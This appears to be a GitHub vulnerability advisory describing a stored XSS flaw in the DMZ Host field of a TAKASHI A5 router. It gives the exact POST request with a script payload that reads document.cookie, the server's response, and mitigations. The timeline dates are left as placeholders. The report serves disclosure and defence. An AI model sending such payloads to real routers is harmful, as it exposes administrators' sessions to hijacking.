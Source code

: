 # TAKASHI Wireless Instant Router and Repeater - XSS Vulnerability

## Overview
A stored cross-site scripting (XSS) vulnerability has been identified in the TAKASHI Wireless Instant Router and Repeater (Model A5) running firmware version **V5.07.38_AAL03** with hardware version **V3.0**. This vulnerability arises due to improper sanitization of user input in the `DMZ Host` IP address field.

## Affected Model
- **Model**: A5  
- **Software Version**: V5.07.38_AAL03  
- **Hardware Version**: V3.0  

## Vulnerability Details
The web application attempts to filter input using a JavaScript function on the client side. However, this validation can be bypassed by sending a direct HTTP request to the web server, leading to a stored XSS vulnerability. Any user visiting the `DMZ Host` section of the web application will have the injected script executed in their browser.

### Exploit Request
The following `POST` request demonstrates the XSS injection:

```
POST /goform/VirSerDMZ HTTP/1.1
Host: 192.168.2.1
Content-Length: 56
Cache-Control: max-age=0
Origin: http://192.168.2.1
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.2.1/nat_dmz.asp
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,nl;q=0.8
Cookie: admin:language=LOL
Connection: keep-alive

GO=nat_dmz.asp&dmzip=`</script><script>alert(document.cookie);</script>`
```

### Response
The request is processed successfully, redirecting the user back to the `nat_dmz.asp` page while storing the malicious script:

```
HTTP/1.0 302 Redirect
Server: GoAhead-Webs
Date: Thu Jan 01 00:53:41 1970
Pragma: no-cache
Cache-Control: no-cache
Content-Type: text/html
Location: http://192.168.2.1/nat_dmz.asp

<html>
<head></head>
<body>
    This document has moved to a new <span><a href="http://192.168.2.1/nat_dmz.asp">location</a></span>.<br>
    Please update your documents to reflect the new location.
</body>
</html>
```

## Impact
- Malicious JavaScript can be injected into the application.
- Users who visit the affected page will have their session cookies exposed.
- The attack could lead to session hijacking, phishing, or further exploitation.

## Mitigation
To mitigate this issue, the following steps should be taken:
1. **Server-side Input Validation**: Sanitize and validate user input before storing or reflecting it.
2. **Content Security Policy (CSP)**: Implement a strict CSP header to prevent inline script execution.
3. **Escaping Output**: Encode user input before rendering it in the browser.
4. **Disable Client-Side Validation Bypass**: Ensure all input validation occurs on the server-side in addition to any JavaScript validation.

## Disclosure Timeline
- **Discovery**: [Insert Date]  
- **Vendor Notified**: [Insert Date]  
- **Patch Released**: [Pending/Date]  
- **Public Disclosure**: [Insert Date]  

## References
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [GoAhead Web Server](https://www.embedthis.com/goahead/)

## Disclaimer
This vulnerability report is for educational and research purposes only. The information provided should not be used for malicious activities. Always obtain proper authorization before testing security vulnerabilities on any system.

---

**Contributors**  
- William James Schleppegrell -> https://github.com/SteamPunk424
  
- Martyn Lodder -> https://github.com/rootofficial
